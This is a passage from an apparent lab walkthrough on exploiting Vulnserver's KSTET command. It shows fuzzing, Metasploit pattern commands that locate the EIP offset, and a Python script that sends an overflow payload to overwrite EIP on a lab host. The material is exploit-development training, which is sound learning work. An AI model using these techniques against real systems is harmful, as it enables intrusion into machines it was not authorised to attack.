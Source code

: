 ```c
Fuzzing crashed at 100 bytes
```

The Vulnserver application should be ran without debugger, to avoid socket connection errors while fuzzing

So, from fuzzing we can estimate that our Vulnserver application is crashing at ```100 bytes``` of buffer data

Still, we are not sure about the approximate buffer space data need to create an overflow

## Finding offset

Creating pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 100 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Fuzzing with the pattern to crash the program,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-1-offset.png">
</div>

Finding offset of the ```EIP``` from the pattern

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
```

We can see that our EIP is at the offset of ```70 bytes``` in the pattern

So we should use ```6 bytes``` of KSTET and ```70 bytes``` of A's to reach EIP

## Overwriting instruction pointer

Now, we have found the offset of our EIP

It’s time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat overwrite-eip.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*70
# to overwrite EIP
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 overwrite-eip.py 
```
